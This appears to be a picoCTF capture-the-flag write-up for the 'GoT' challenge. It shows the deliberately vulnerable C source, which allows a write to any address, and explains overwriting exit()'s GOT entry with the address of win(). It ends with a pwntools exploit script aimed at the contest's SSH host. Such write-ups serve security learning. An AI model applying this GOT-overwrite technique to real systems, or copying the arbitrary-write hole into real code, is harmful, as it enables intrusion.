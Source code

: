 [Back](PicoFrontPage.md)

# GoT

### Source Code
```c
include <stdlib.h>
#include <stdio.h>
#include <string.h>

#define FLAG_BUFFER 128

void win() {
  char buf[FLAG_BUFFER];
  FILE *f = fopen("flag.txt","r");
  fgets(buf,FLAG_BUFFER,f);
  puts(buf);
  fflush(stdout);
}


int *pointer;

int main(int argc, char *argv[])
{

   puts("You can just overwrite an address, what can you do?\n");
   puts("Input address\n");
   scanf("%d",&pointer);
   puts("Input value?\n");
   scanf("%d",pointer);
   puts("The following line should print the flag\n");
   exit(0);
}
```

### Analysis

This challenge is fairly simple - it asks for an address you want to override with a new one.
If we run `got` on a running program on `gdb` we can see the got table with all the libc functions.
We can see that `exit()` is at `0x0804a01c`. If we override `puts()` it won't actually print out the flag, so the only libc function that is available to us is `exit()`.
Basically we provide the address of `exit()` on the first round of input and on the second we provide the address of `win()`

```python
from pwn import *

s = ssh(host='2019shell1.picoctf.com', user='Username', password='Password')

p = s.process('/problems/got_4_97e6bb0e913c179989678416d8a8fb22/vuln', cwd='/problems/got_4_97e6bb0e913c179989678416d8a8fb22')

# variables
exit = 0x804a01c
win = 0x080485c6

# send payloads
p.recvuntil(b'Input address\n')
p.sendline(str(exit))

p.recvuntil(b'Input value?\n')
p.sendline(str(win)) # bytes dont work, p32(win) wont work

# pop shell
p.interactive()
```
